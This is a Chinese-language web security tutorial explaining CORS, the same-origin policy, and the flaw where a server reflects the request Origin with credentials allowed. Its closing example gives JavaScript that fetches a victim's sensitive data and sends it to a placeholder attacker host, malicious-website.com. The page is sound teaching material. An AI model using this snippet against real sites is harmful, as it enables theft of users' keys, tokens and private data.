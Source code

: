 # Cross-origin resource sharing (CORS)

在本节中，我们将解释什么是跨域资源共享（`CORS`），并描述一些基于 `CORS` 的常见攻击示例，以及讨论如何防御这些攻击。


## CORS（跨域资源共享）是什么？

`CORS`（跨域资源共享）是一种浏览器机制，它允许对位于当前访问域之外的资源进行受控访问。它扩展并增加了同源策略的灵活性。然而，如果一个网站的 `CORS` 策略配置和实现不当，它也可能导致基于跨域的攻击。`CORS` 不是针对跨源攻击（例如跨站请求伪造 `CSRF`）的保护。


## Same-origin policy（同源策略）

同源策略是一种限制性的跨域规范，它限制了网站与源域之外资源交互的能力。同源策略是多年前定义的，用于应对潜在的恶意跨域交互，例如一个网站从另一个网站窃取私人数据。它通常允许域向其他域发出请求，但不允许访问响应。

更多内容请参考 [Same-origin-policy](./Same-origin-policy.md) 。

## 同源策略的放宽

同源策略具有很大的限制性，因此人们设计了很多方法去规避这些限制。许多网站与子域或第三方网站的交互方式要求完全的跨域访问。使用跨域资源共享（`CORS`）可以有控制地放宽同源策略。

`CORS` 协议使用一组 HTTP header 来定义可信的 web 域和相关属性，例如是否允许通过身份验证的访问。浏览器和它试图访问的跨域网站之间进行这些 header 的交换。

更多内容请参考 [CORS and the Access-Control-Allow-Origin response header](./Access-control-allow-origin.md) 。

## CORS 配置不当引发的漏洞

现在许多网站使用 `CORS` 来允许来自子域和可信的第三方的访问。他们对 `CORS` 的实现可能包含有错误或过于放宽，这可能导致可利用的漏洞。


### 服务端 ACAO 直接返回客户端的 Origin

有些应用程序需要允许很多其它域的访问。维护一个允许域的列表需要付出持续的努力，任何差错都有可能造成破坏。因此，应用程序可能使用一些更加简单的方法来达到最终目的。

一种方法是从请求头中读取 `Origin`，然后将其作为 `Access-Control-Allow-Origin` 响应头返回。例如，应用程序接受了以下请求：
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

然后，其响应：
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

响应头表明允许从请求域进行访问，并且跨域请求可以包括 cookies（`Access-Control-Allow-Credentials: true`），因此浏览器将会在会话中进行处理。

由于应用程序在 `Access-Control-Allow-Origin` 头中直接返回了请求域，这意味着任何域都可以访问资源。如果响应中包含了任何敏感信息，如 API key 或者 CSRF token 则都可以被获取，你可以在你的网站上放置以下脚本进行检索：
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};
```
